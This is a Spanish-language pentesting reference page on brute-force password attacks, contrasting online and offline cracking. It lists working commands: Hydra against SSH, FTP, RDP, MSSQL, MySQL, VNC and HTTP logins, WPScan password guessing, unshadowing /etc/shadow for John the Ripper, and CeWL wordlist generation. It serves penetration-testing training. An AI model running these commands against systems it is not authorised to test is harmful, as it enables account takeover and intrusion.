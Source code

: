 ```yaml
---
layout: article
title: Pentesting - Fuerza bruta
aside:
  toc: true
sidebar:
  nav: side
header:
  theme: dark
  background: black
---
```


Existen dos categorías principales de este tipo de ataques, aquellos que se hacen vía internet (**online**) y aquellos en los que no necesitamos realizar peticiones contra el servidor (máquina víctima) para descubrir la contraseña (**offline**), puesto que contamos con la contraseña encriptada/hasheada y tratamos de obtener la contraseña en plano desde nuestra máquina atacante.

<h1>Fuerza bruta vía online</h1>

Limitaciones:
* Sistemas de seguridad.
* Ancho de banda y capacidad de procesamiento (asimilación de la cantidad de peticiones).
* Configuración del servidor.
* Generación de registros en la máquina víctima (no es muy disimulado que digamos...).
* No se tiene control del resultado.

<h2><b>Hydra</b></h2>

<div class="grid" id="ssh-brute">
  <div class="cell cell--20 cell--lg-20 content" id="custom-table-header">SSH</div>
</div>

~~~bash
hydra -v -V -u -L users.txt -P passwords.txt -t 1 -u <IP> ssh -o ssh-creds.txt
hydra -l root -P passwords.txt -t 3 -s port <IP> ssh
~~~

<div class="grid" id="ftp-brute">
  <div class="cell cell--20 cell--lg-20 content" id="custom-table-header">FTP</div>
</div>

~~~bash
hydra -l anonymous -P passwords.txt -v <IP> ftp -o ftp-creds.txt
hydra -L users.txt -P passwords.txt -t 3 -s 21 <IP> ftp
~~~

<div class="grid">
  <div class="cell cell--20 cell--lg-20 content" id="custom-table-header">RDP</div>
</div>

~~~bash
hydra -f -l Administrator -P /usr/share/wordlists/rockyou.txt -o rdp-creds.txt rdp://192.168.1.100
~~~

<div class="grid">
  <div class="cell cell--20 cell--lg-20 content" id="custom-table-header">MSSQL</div>
</div>

~~~bash
hydra -L /usr/share/wordlists/SecLists/Usernames/mssql-usernames-nansh0u-guardicore.txt -P /usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-10000.txt 192.168.1.100 mssql -o mssql-creds.txt
~~~

<div class="grid">
  <div class="cell cell--20 cell--lg-20 content" id="custom-table-header">MySQL</div>
</div>

~~~bash
hydra -C /usr/share/wordlists/SecLists/Passwords/Default-Credentials/mysql-betterdefaultpasslist.txt 192.168.1.100 mysql -o mysql-creds.txt
~~~

<div class="grid">
  <div class="cell cell--20 cell--lg-20 content" id="custom-table-header">VNC</div>
</div>

~~~bash
hydra -s 5900 -P /usr/share/wordlists/SecLists/Passwords/darkweb2017-top10000.txt -t 1 192.168.1.100 vnc -o vnc-creds.txt
~~~
<div class="grid">
  <div class="cell cell--20 cell--lg-20 content" id="custom-table-header">HTTP - Basic Auth</div>
</div>

~~~bash
hydra -L users.txt -P passwords.txt 192.168.1.100 http-head /webdav/ -o http-creds.txt
~~~

<div class="grid">
  <div class="cell cell--20 cell--lg-20 content" id="custom-table-header">HTTP - Tomcat</div>
</div>

~~~bash
hydra -C /usr/share/seclist/Passwords/Default-Credentials/tomcat-betterdefaultpasslist.txt -s 8080 192.168.1.100 http-get /webauth 
~~~

<h2><b>WPScan</b></h2>

<div class="grid">
  <div class="cell cell--20 cell--lg-20 content" id="custom-table-header">HTTP</div>
</div>

~~~bash
wpscan --url http://192.168.1.100/wp --passwords=passwords.txt --usernames admin -t 20​
~~~

<h1>Fuerza bruta vía offline</h1>

<div class="grid">
  <div class="cell cell--20 cell--lg-20 content" id="custom-table-header">John the Ripper</div>
</div>

Cracking de contraseñas en sistemas linux:

~~~bash
unshadow /etc/passwd /etc/shadow > unshadow.txt
john --wordlist=/usr/share/wordlists/rockyou.txt --fork=20 unshadow.txt
~~~

<h1>Generación de diccionarios</h1>

<div class="grid">
  <div class="cell cell--20 cell--lg-20 content" id="custom-table-header">CeWL</div>
</div>
[https://github.com/digininja/CeWL.git](https://github.com/digininja/CeWL.git)

Generador de wordlists que recopila palabras clave de las URL del objetivo (spider del objetivo). Esta lista puede ser utilizada como diccionario para logins en aplicaciones web.

~~~bash
./cewl example.com -d 1 -w example-keywords.txt
~~~
